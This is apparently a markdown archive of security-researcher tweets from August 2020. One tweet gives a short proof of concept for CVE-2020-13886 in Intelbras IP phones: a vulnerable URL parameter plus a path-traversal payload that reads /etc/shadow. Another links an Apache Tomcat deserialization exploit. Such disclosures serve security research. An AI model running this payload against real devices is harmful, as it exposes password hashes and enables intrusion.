 <table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1291184302672158720 _at 2020-08-06, 01:28:21_**
<blockquote>
CVE-2020-13886 0day INTELBRAS TELEFONE IP TIP200/200 LITE &amp; TIP 300 - Local File Include

[ Proof Of Concept ]
URL parameter -&gt;http://HOST/cgi-bin/cgiServer.exx?page=

LFI payload -&gt; ../../../../etc/shadow

https://t.co/fQEOI2WZsF https://t.co/ixlAj26tAM
</blockquote>

* https://github.com/lucxssouza/CVE-2020-13886

<table><tr>
<td><img src="pictures/f175ce972d465d819a054870ff0aee805222fd35d85a1f5e53da691523566f13.jpg" alt="f175ce972d465d819a054870ff0aee805222fd35d85a1f5e53da691523566f13.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>97</code></td>
</tr></table>

---

# behindthebreach
**https://twitter.com/behindthebreach/status/1290860109053284353 _at 2020-08-05, 04:00:07_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) - write-up and exploit https://t.co/YygbwhoXTd #vulnerability #collection #execution #cve_2020_9484 #apache #tomcat
</blockquote>

* https://behindthebreach.com/l/46

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>119</code></td>
</tr></table>

---